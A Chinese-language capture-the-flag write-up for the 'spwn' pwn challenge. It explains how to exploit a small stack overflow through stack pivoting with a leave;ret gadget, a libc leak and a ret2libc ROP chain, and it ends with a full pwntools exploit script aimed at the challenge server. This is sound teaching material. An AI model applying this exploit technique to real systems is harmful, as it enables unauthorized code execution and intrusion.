 首先checksec发现是开启了nx的32位程序

![image-20201118204008644](https://static.hack1s.fun/images/2021/02/06/image-20201118204008644.png)

出现漏洞的函数就是一个read读入了0x200的字符

![image-20201118204124737](https://static.hack1s.fun/images/2021/02/06/image-20201118204124737.png)

一共存在两次这样有危险的读，m1，m2是两个字符串

但是需要注意的是第一次读才会造成比较长的溢出，第二次的读最多只有0x20

并且这里有一个地方就是，s是位于bss段的

buf是在栈上的，也就是说我们没办法在这个地方写太多东西

0x20-0x18是8，也就是可以控制ebp和ret addr

这道题是一道[栈迁移](https://river-li.github.io/2020/11/19/Stack-Pwn)的题目，控制ebp和ret addr之后让整个栈换位置

这里可以将return address填充为`leave;ret`的gadget

![image-20201119105423245](https://static.hack1s.fun/images/2021/02/06/image-20201119105423245.png)

查到这个gadget的位置



整个payload应该分成三部分：

1. 首先发送第一个payload，写在s的内容，是后面想要执行ret2libc的rop链内容；
2. 发送第二个payload，写在buf的内容，溢出ebp和return address，让栈的ebp和esp迁移到s的位置，这样之后会执行ret2libc那里想要泄漏的write函数got表地址；
3. 计算出libc的偏移，发送第三个payload布置之后system("/bin/sh")的栈ROP链
4. 发送第四个payload，溢出之后将栈迁移到目标位置



做的时候遇到了一些问题，发送payload的时候sendline发现就不行；

改成了send之后就没事了

```python
from pwn import *                                                                                                                                   
from LibcSearcher import *

io = remote('node3.buuoj.cn',29346)
#io = process('./spwn')
elf = ELF('./spwn')

io.recvuntil('?')

payload1 = 'a'*4
payload1 += p32(elf.plt['write']) + p32(elf.sym['main']) + p32(1) + p32(elf.got['write']) + p32(4)

io.send(payload1)

io.recvuntil('?')

payload2 = 'a'*0x18 + p32(elf.sym['s']) + p32(0x08048408)

io.send(payload2)

real_write = u32(io.recv(4))

io.recvuntil('?')

libc = LibcSearcher('write',real_write)
libc_base = real_write - libc.dump('write')

payload1 = 'a'*4
payload1 += p32(libc_base+libc.dump('system')) + p32(elf.sym['main']) + p32(libc_base+libc.dump('str_bin_sh')) 

io.send(payload1)
io.recvuntil('?')

io.send(payload2)

io.interactive()
```

